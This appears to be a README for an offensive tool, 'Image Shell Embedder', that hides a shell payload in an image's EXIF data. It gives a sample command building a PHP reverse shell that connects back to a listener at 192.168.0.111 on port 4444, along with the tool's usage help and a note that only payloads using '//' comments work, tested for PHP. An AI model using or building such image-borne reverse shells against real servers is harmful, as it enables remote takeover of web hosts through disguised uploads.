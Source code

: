 # Image Shell Embedder
### Can be used to embed a shell payload in an image's exif data.
```
./image_shell.py -p php/reverse_php -lh 192.168.0.111 -lp 4444 -f raw -i white.png

usage: image_shell.py [-h] [-i IMAGE_FILE] [-p PAYLOAD] [-f FORMAT] [-lh LHOST] [-lp LPORT]

optional arguments:
  -h, --help            show this help message and exit
  -i IMAGE_FILE, --image IMAGE_FILE
                        Image: -i dog.jpg
  -p PAYLOAD, --payload PAYLOAD
                        Payload: -p php/reverse_php
  -f FORMAT, --payload_format FORMAT
                        Payload Output format: -f raw
  -lh LHOST, --LHOST LHOST
                        LHOST: -lh 192.168.0.112
  -lp LPORT, --LPORT LPORT
                        LPORT: -lp 8080
                        
```

## Note:
  Currently this works for payloads for languages that use `//` for inline comments. Tested for PHP. If anyone needs it to work for any other language I can add an optional argument for inline comment. Or you could make a change in code at line 65 and 67.
